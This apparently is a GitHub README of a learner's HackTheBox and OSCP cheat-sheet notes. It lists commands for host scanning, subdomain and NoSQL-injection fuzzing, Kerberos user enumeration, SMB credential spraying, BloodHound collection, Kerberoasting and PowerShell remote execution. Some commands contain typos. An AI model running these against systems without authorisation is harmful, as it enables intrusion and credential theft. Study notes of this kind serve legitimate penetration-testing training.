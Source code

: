 ## table of contents

- [overview](#overview)
- [enumeration](#enumeration)
- [web](#web)
- [ad](#ad)
- [windows](#windows)
- [linux](#linux)
- [priv esc](#privesc)


## overview

This README contains notes for HackTheBox & OSCP prep.

# enumeration
## host
`nmap -sC -sV <ip>` OR `rustscan -a <ip> -- -sC -sV`

## subdomain
`ffuf -u http://DOMAIN -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.DOMAIN.COM"`

## ports
#### 88 (Kerberos)
can brute force valid users w/ kerbrute
`./kerbrute userenum --dc <ip> -d <domain> users.txt`

#### 139/445 (SMB)
enumerate valid smb creds
`crackmapexec smb <ip> -d <domain> -u <user(s)> -p <password(s)> --no-bruteforce --continue-on-success` 

# web
## fuzzing
NOSQL injection
`ffuf -u http://DOMAIN.COM/login -c -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'`

# ad
## bloodhound
https://github.com/BloodHoundAD/BloodHound
https://github.com/fox-it/BloodHound.py

#### server
`sudo neo4j console`
`./BloodHound`

#### to get json
`./bloodhound.py -u <username> -p <password> -d <domain> -ns <ip> -c All`

- grab users from json
`cat <XXXX_users.json> | js '.data[].Properties | select( . enabled == true) | .name' -r > users.txt`
- remove @domain from userlist
`cat users.txt | awk -F@ '{print $1}' > o`
`mv o users.txt`

## kerberoasting
GetUserSPNs.py can be used to grab kerberos hashes after an account has be identified using Bloodhound
`./GetUserSPNs.py <domain>/<user>:<password> -outputfile kerberoast.hash`

# windows
#### powershell credential
`$cred = New-Object System-Management-Automation-PSCredential "user","pass"`
#### execute PS command
`Invoke-Command -ComputeName 127.0.0.1 -cred $cred -SCriptBlock { <command> }`
# linux

# priv esc
